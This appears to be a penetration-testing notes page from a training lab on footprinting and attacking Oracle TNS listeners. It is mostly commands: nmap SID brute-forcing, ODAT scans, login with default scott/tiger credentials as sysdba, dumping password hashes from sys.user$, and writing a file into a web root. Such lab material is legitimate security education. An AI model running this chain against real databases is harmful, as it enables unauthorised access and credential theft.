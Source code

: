 # Oracle Transparent Network Substrate

## Footprinting The Service

### Tool Setup

{% code overflow="wrap" %}
```
sudo apt-get install libaio1 python3-dev alien -y
git clone https://github.com/quentinhardy/odat.git
cd odat/
git submodule init
git submodule update
wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
unzip instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
unzip instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
export LD_LIBRARY_PATH=instantclient_21_12:$LD_LIBRARY_PATH
export PATH=$LD_LIBRARY_PATH:$PATH
pip3 install cx_Oracle
sudo apt-get install python3-scapy -y
sudo pip3 install colorlog termcolor pycrypto passlib python-libnmap
sudo pip3 install argcomplete && sudo activate-global-python-argcomplete
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption><p>Before we can enumerate the TNS listener and interact with it, we need to download a few packages and tools</p></figcaption></figure>

### Nmap

{% code overflow="wrap" %}
```
sudo nmap -p1521 -sV 10.129.204.235 --open
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

### Nmap - SID Bruteforcing

{% code overflow="wrap" %}
```
sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### **ODAT**

{% code overflow="wrap" %}
```
./odat.py all -s 10.129.204.235
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption><p> the <code>odat.py</code> tool to perform a variety of scans like retrieve database names, versions, running processes, user accounts, vulnerabilities, misconfigurations etc.</p></figcaption></figure>

### **SQLplus - Log In**

{% code overflow="wrap" %}
```
sqlplus scott/tiger@10.129.204.235/XE
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption><p>You can also attempt to append "as sysdba" for higher privileges</p></figcaption></figure>

If you come across the following error <mark style="color:red;">sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory</mark> execute the following command

{% code overflow="wrap" %}
```
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
```
{% endcode %}

### Oracle RDBMS - Interaction

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

### **Oracle RDBMS - Database Enumeration**

{% code overflow="wrap" %}
```
sqlplus scott/tiger@10.129.204.235/XE as sysdba
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption><p>Try using the valid account to log in as the System Database Admin (<code>sysdba</code>), giving higher privileges. This is possible when the user has the appropriate privileges typically granted by the database administrator.</p></figcaption></figure>

### **Oracle RDBMS - Extract Password Hashes**

{% code overflow="wrap" %}
```
select name, password from sys.user$;
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

### **Oracle RDBMS - File Upload**

| OS      | Path                 |
| ------- | -------------------- |
| Linux   | `/var/www/html`      |
| Windows | `C:\inetpub\wwwroot` |

{% code overflow="wrap" %}
```
echo "Oracle File Upload Test" > testing.txt
```
{% endcode %}

{% code overflow="wrap" %}
```
./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```
curl -X GET http://10.129.204.235/testing.txt
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

